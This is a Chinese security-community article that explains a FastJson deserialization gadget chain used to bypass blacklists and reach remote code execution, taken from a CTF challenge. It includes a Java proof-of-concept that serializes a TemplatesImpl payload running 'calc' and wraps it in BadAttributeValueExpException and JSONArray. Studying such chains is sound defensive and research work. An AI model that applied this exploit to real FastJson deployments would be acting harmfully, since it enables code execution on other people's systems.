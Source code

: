 

# FastJson 结合二次反序列化绕过黑名单 - 先知社区

FastJson 结合二次反序列化绕过黑名单



#### 省流

该利用链可以在`fastjson`多个版本实现`RCE`，并且借助`SignedObject`绕过第一层安全的`resolveClass`对于`TemplatesImpl`类的检查。

条件如下：

1.  `ObjectInputStream`（反序列化）输入数据可控
2.  引入`Fastjson`依赖

#### FastJson 之不安全的反序列化利用

说起来还是`AliyunCTF`那道`ezbean`的非预期，很多师傅使用`FastJson#toString`方法触发`TemplatesImpl#getOutputProperties`实现`RCE`。

**gadget**

```plain
BadAttributeValueExpException#readObject
JSONArray#toString
TemplatesImpl#getOutputProperties
```

`FastJson`反序列化并不是通过`ObjectInputStream.readObject()`还原对象，而是在反序列化的过程中自动调用类属性的`setter/getter`方法，将`JSON`字符串还原成对象。

因此从`FJ 1.2.49`开始，`JSONArray`和`JSONObject`开始重写了`resolveClass`，过滤了诸如`TemplatesImpl`的危险类。而`ezbean`那道题使用了一个不安全的`ObjectInputStream`进行反序列化。

这也就导致了选手通过引用的数据类型从而不执行`resolveClass`以绕过其对危险类的检查，导致了非预期。

**exp**

```plain
List<Object> list = new ArrayList<>();

        TemplatesImpl templates = GadgetUtils.createTemplatesImpl("calc");

        list.add(templates);          //第一次添加为了使得templates变成引用类型从而绕过JsonArray的resolveClass黑名单检测

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);           //此时在hash表中查到了映射，因此接下来以引用形式输出

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        ReflectionUtils.setFieldValue(bd,"val",jsonArray);
        list.add(bd);
        //字节
        byte[] payload = SerializerUtils.serialize(list);

        ObjectInputStream ois = new MyInputStream(new ByteArrayInputStream(payload));
        ois.readObject();
```
